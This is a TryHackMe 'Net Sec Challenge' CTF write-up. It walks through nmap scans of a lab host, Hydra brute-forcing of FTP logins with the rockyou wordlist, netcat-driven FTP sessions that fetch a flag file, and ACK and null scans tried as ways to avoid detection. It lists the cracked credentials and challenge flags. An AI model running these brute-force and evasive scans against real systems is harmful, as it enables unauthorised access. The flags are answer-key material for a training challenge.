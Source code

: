 # Net Sec Challenge

* [TryHackMe: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)

This CTF is just a series of questions. All should be solvable using nmap, telnet, and Hydra… Though I’m going to substitute netcat for telnet. However, I’m sticking to the spirit of things, and will only use those three tools.

The target machine is 10.10.152.115.

We’ll start off with a full nmap scan:

```bash
sudo nmap -v -oN net-sec-challenge -Pn -A --reason -T4 \
          -p- 10.10.152.115
```

Results:

```
# Nmap 7.92 scan initiated Sun Apr  3 20:48:04 2022 as: nmap -v -oN net-sec-challenge -Pn -A --reason -T4 -p- 10.10.152.115
Increasing send delay for 10.10.152.115 from 0 to 5 due to 909 out of 2271 dropped probes since last increase.
Increasing send delay for 10.10.152.115 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
Nmap scan report for 10.10.152.115
Host is up, received user-set (0.19s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 (protocol 2.0)
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 61 lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Hello, world!
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.92%I=7%D=4/3%Time=624A60E5%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/3%OT=22%CT=1%CU=32245%PV=Y%DS=4%DC=T%G=Y%TM=624A6111
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 12.801 days (since Tue Mar 22 01:54:39 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2022-04-04T03:07:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   47.27 ms  10.13.0.1
2   ... 3
4   222.58 ms 10.10.152.115

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  3 21:08:01 2022 -- 1 IP address (1 host up) scanned in 1197.32 seconds
```

This enables us to answer a set of questions immediately.

* What is the highest port number being open less than 10,000? — `8080`
* There is an open port outside the common 1000 ports; it is above 10,000. What is it? — `10021`
* How many TCP ports are open? — `6`
* What is the flag hidden in the HTTP server header? — `THM{web_server_25352}`
* What is the flag hidden in the SSH server header? — `THM{946219583339}`
* We have an FTP server listening on a nonstandard port. What is the version of the FTP server? — `vsftpd 3.0.3`

That’s all pretty easy. The next one is a bit harder with our limited toolset…

We start off by attempting to brute force the password for `eddie` or `quinn` using Hydra. To do this, we’re going to run two Hydra tasks in parallel.

```bash
# Hydra task to break eddie's password.
#
hydra -v -f -t 10 -s 10021 -l eddie \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp

# Hydra task to break quinn's password.
#
hydra -v -f -t 10 -s 10021 -l quinn \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp
```

These quickly return the results `eddie:jordan` and `quinn:andrea`. Let’s try to use `nc -nv 10.10.152.115 10021` to log into `eddie`’s account.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (10,10,152,115,119,101).
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.
```

The trick here is that the passive mode response returns (o1,o2,o3,o4,p1,p2), where o1 – o4 are the four octets of the server’s IP address (10.10.152.115), and p1 – p2 are the high + low bytes of the port number to connect to, (256 × p1) + p2. Thus, after entering passive mode we can catch the reply using a second netcat instance, `nc -nv 10.10.152.115 30565`. We start this *before* entering the LIST command, revealing that `eddie` has access to no files.

Let’s have the same conversation for `quinn`.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER quinn
331 Please specify the password.
PASS andrea
230 Login successful.
PASV
227 Entering Passive Mode (10,10,152,115,120,34).
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,10,152,115,117,85).
RETR ftp_flag.txt
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

This time we need to open *two* auxiliary netcat sessions. The first, `nc -nv 10.10.152.115 30754`, catches the LIST command, which reveals that `quinn` has access to an `ftp_flag.txt` file. The second, `nc -nv 10.10.152.115 30037`, catches the contents of that file after issuing the RETR command. This is the answer to our penultimate challenge.

* We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP? — `THM{321452667098}`

For the final challenge, we go to `http://10.10.152.115:8080`. The challenge is to scan 10.10.152.115 “as covertly as possible”. I’m not really willing to wait 7 months for a scan, but I’ll bet that all we need to do is use `-T1` and drop `-A`.

```bash
sudo nmap -v -Pn -n -T1 -p- 10.10.152.115
```

Well, that didn’t work — “71% chance of scan being detected” and we’re nowhere near done. That, and the machine expired without me even noticing.

New target IP is 10.10.34.244.

Maybe speed doesn’t matter here? Let’s try a scan that shouldn’t even look like a connection — an ACK scan — but at a more “normal” rate.

```bash
sudo nmap -v -Pn -n -T4 -sA -p- 10.10.34.244
```

Well, that resulted in an almost immediate flag. Switching to `-T2` for the timing here also incremented things quite quickly.

What about a null scan? That might actually get me more information than an ACK scan, but should elicit *any* response from open ports.

```bash
sudo nmap -v -Pn -n -T4 -sN -p- 10.10.34.244
```

“Null scan” is apparently the right answer, as the challenge provided the flag almost immediately (which doesn’t *actually* make any sense, but whatever…).

* Browsing to `http://10.10.152.115:8080` displays a small challenge that will give you a flag once you solve it. What is the flag? — `THM{f7443f99}`

ELAPSED TIME: 2 h 31 min

## References

* [Using “nmap”](nmap.md)
* [Using Hydra](hydra.md)
* [Using “netcat”](netcat.md)
* [File Transfer Protocol (FTP)](ftp.md)
* [How to list FTP directories using telnet?](https://stackoverflow.com/questions/50324402/how-to-list-ftp-directories-using-telnet#comment126707507_50324402)
* [FTP Commands: QUIT, USER, ABOR, ACCT, SYST, XDEL](https://www.serv-u.com/resource/tutorial/quit-user-abor-acct-syst-xdel-ftp-command)
* [FTP Commands: APPE, MLSD, MLST, LIST, RETR, STOR, STOU](https://www.serv-u.com/resource/tutorial/appe-stor-stou-retr-list-mlsd-mlst-ftp-command)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 3, 2022
